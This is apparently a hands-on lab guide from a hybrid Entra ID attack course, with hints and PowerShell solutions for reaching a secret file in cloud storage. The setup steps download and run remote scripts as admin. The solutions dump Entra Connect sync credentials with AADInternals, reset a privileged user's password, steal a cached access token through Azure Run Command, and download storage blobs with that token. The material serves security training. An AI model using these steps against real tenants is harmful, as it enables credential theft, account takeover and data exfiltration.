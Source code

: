 # LAB 4 Preparations
1. RDP login to DC VM using the YOURDOMAIN\\**rootuser**, then run the following script as admin:
    ```powershell
    # when asked, login using the ENTRA CREDS (!)
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1"
    ```
    Ignores errors such as "*cannot be created because function capacity 4096 has been exceeded for this scope*"..

2. RDP login to Win11 VM using the YOURDOMAIN\\**user1**, then run the following script as admin:
    ```powershell
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4Win11VmPrepScript.ps1" -OutFile "C:\\lab4Win11VmPrepScript.ps1"; `
        & "C:\\lab4Win11VmPrepScript.ps1"
    ```
    keep this window open in the background - **you're not allowed to use it from now on**

# Instructions
1. Your goal is to find the `secret.txt` file 
2. forget everything you knew: from this point on you DON'T know what the Entra admin password is (i.e. what's the password of 'user1' / 'rootuser'), and what the VMs passwords are
3. **DO NOT** password reset or silver ticket (Seamless SSO) "user1"
3. **Starting point:** as the attacker the only thing you have is the RDP session on the DC VM. Good luck! 

# Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on any VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

    1. Pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials

    2. Login to Azure as that user using your browser

    3. Azure Portal Run Command on Win11 VM (the VM that has user1 logged on)

    4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 

    5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>



## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
    
```powershell
Import-Module AADInternals
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -SaveToCache
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```
Target user2, as he holds a privileged role.. 

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```
</details>


## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions
</details>

<details>
    <summary><b>Hint 4</b></summary>

    user1 is a part of the company's red team, he continuously, on a regular basis, runs scripts from his Desktop folder to map their Entra tenant attack surface. Use that to your advantage.
</details>

<details>
<summary><b>Solution</b></summary>

    user1 uses roadrecon to map attack surfaces in his company's attack surface, the script is executed on a regular basis.
    as we learned, roadrecon writes a file with the access token called "", we can take that access token and steal it!

    Run the following command on the Win11 VM from the Run Command Window in the Azure portal:

```powershell
type c:\users\user1.YOURDOMAIN\desktop\.roadtools_auth
```
</details>

## Step 3
<details>
    <summary><b>Hint 1</b></summary>
    
    Using the acquired access token, what can you do?
    You may use your own PC / DC VM
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
    Recon as that user and see what he has access to..

```powershell
$at = "eyJ"... # what you've obtained from the Run Command hack
$userUPN = "user2@YOURDOMAIN.onmicrosoft.com" # you can get it from the access token if you'll parse in https://jwt.io
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView


Connect-AzureAD -AccountId  $userUPN -TenantId $tenantId -AadAccessToken $at
Connect-AzAccount -AccountId  $userUPN -TenantId $tenantId -AccessToken $at 
```
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
```powershell
# List current user's Azure Role Assignments using Azure PowerShell

$userObjectId = "686ebf9d-25..." # get it by parsing the JWT token and looking for the 'oid' field
$roleAssignments = Get-AzRoleAssignment -ObjectId $userObjectId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
</details>

<details>
    <summary><b>Hint 3</b></summary>
    
    We can see that there's a storage account that this user has access to..
</details>


<details>
    <summary><b>Solution</b></summary>
    
```powershell
# Get all storage accounts
$storageAccounts = Get-AzStorageAccount

foreach ($storageAccount in $storageAccounts) {
    Write-Output "Storage Account: $($storageAccount.StorageAccountName)"

    # Get the context for the storage account
    $context = $storageAccount.Context

    # List all containers in the storage account
    $containers = Get-AzStorageContainer -Context $context

    foreach ($container in $containers) {
        Write-Output "  Container: $($container.Name)"

        # List all blobs in the container
        $blobs = Get-AzStorageBlob -Container $container.Name -Context $context

        foreach ($blob in $blobs) {
            Write-Output "    Blob: $($blob.Name)"

            # Download the blob content to a temporary location
            $tempFilePath = Join-Path -Path $env:TEMP -ChildPath $blob.Name
            Get-AzStorageBlobContent -Blob $blob.Name -Container $container.Name -Context $context -Destination $tempFilePath -Force

            # Print the content of the blob
            $blobContent = Get-Content -Path $tempFilePath
            Write-Output "      Content: $blobContent"
        }
    }
}
```

### The content of "secret.txt" in storage account is your medal, mazal tov hacker cracker!

#### Bonus: 
Go back to the beginning, and try steal user1 identity using silver ticket (Seamless SSO) instead of password reset
</details>


## Don't forget
Once done, delete the lab resource groups to clean up the resources